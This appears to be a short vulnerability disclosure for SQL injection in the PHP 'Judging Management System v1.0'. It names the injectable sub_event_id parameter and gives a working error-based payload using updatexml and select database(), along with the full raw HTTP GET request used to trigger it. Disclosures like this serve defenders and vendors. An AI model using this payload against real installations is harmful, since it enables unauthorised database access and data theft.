 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Pings

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/sub_event_stat_update.php?status=&se_name=&sub_event_id=

Vulnerability location: /php-jms/sub_event_stat_update.php?status=&se_name=&sub_event_id=, sub_event_id

dbname =jms_db

[+] Payload: /php-jms/sub_event_stat_update.php?status=&se_name=&sub_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> sub_event_id

```sql
GET /php-jms/sub_event_stat_update.php?status=&se_name=&sub_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206377308-17cb0c93-fe3e-4b50-9bb9-13d459f0ad9b.png)
